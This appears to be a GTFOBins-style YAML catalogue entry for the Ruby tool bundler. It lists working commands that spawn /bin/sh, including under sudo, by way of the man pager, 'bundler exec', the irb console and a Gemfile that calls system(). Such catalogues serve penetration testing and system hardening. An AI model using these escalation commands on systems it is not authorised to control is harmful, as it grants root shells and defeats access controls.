 ```yaml
---
functions:
  shell:
    - description: This spawns an interactive shell via [`man`](/gtfobins/man/).
      code: |
        bundler help
        !/bin/sh
  sudo:
    - description: This spawns an interactive shell via [`man`](/gtfobins/man/).
      code: |
        sudo bundler help
        !/bin/sh
    - description: This creates an empty Gemfile and spawns an interactive shell.
      code: |
        TF=$(mktemp -d)
        touch $TF/Gemfile
        cd $TF
        sudo bundler exec /bin/sh
    - description: This creates an empty Gemfile and spawns an interactive shell via [`irb`](/gtfobins/irb/).
      code: |
        TF=$(mktemp -d)
        touch $TF/Gemfile
        cd $TF
        sudo bundler console
        system('/bin/sh -c /bin/sh')
    - description: This creates an empty bundle and spawns an interactive shell.
      code: |
        TF=$(mktemp -d)
        echo 'system("/bin/sh")' > $TF/Gemfile
        cd $TF
        sudo bundler install
---
```

